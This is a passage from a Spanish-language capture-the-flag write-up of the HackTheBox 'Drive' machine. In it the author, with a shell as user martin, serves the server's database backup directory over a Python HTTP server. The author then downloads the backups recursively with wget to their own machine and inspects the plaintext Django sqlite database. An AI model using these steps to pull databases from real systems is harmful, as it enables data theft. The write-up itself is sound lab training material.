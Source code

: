 - Son bastantes, habrá que iniciar por la base de datos.
- Montaremos un servidor de Python en el directorio:

~~~bash
martin@drive:/var/www/backups$ ls
1_Dec_db_backup.sqlite3.7z  1_Oct_db_backup.sqlite3.7z  db.sqlite3
1_Nov_db_backup.sqlite3.7z  1_Sep_db_backup.sqlite3.7z
martin@drive:/var/www/backups$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
~~~

- Haremos una descarga recursiva:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Drive]
└─$ wget http://drive.htb:1234/ -r
--2024-02-23 11:38:28--  http://drive.htb:1234/
Resolviendo drive.htb (drive.htb)... 10.10.11.235
Conectando con drive.htb (drive.htb)[10.10.11.235]:1234... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 650 [text/html]
Grabando a: «drive.htb:1234/index.html»

<------ TRASH ------>

ACABADO --2024-02-23 11:38:45--
Tiempo total de reloj: 17s
Descargados: 6 ficheros, 3.6M en 11s (351 KB/s)
~~~

- Intenté descomprimir los archivos, pero nos solicita una contraseña, ya que al parecer están encriptados:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Drive/drive.htb:1234]
└─$ 7z x 1_Sep_db_backup.sqlite3.7z

<------ TRASH ------>
    
Enter password (will not be echoed):
ERROR: Data Error in encrypted file. Wrong password? : db.sqlite3
                 
Sub items Errors: 1

Archives with Errors: 1

Sub items Errors: 1
~~~

- Decidí echar un vistazo a la base de datos en texto plano:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Drive/drive.htb:1234]
└─$ sqlite3 db.sqlite3 
SQLite version 3.43.1 2023-09-11 12:01:27
Enter ".help" for usage hints.
sqlite> show databases;
Parse error: near "show": syntax error
  show databases;
  ^--- error here
sqlite> .tables
accounts_customuser                   auth_permission                     
accounts_customuser_groups            django_admin_log                    
accounts_customuser_user_permissions  django_content_type                 
accounts_g                            django_migrations                   
accounts_g_users                      django_session                      
auth_group                            myApp_file                          
auth_group_permissions                myApp_file_groups
~~~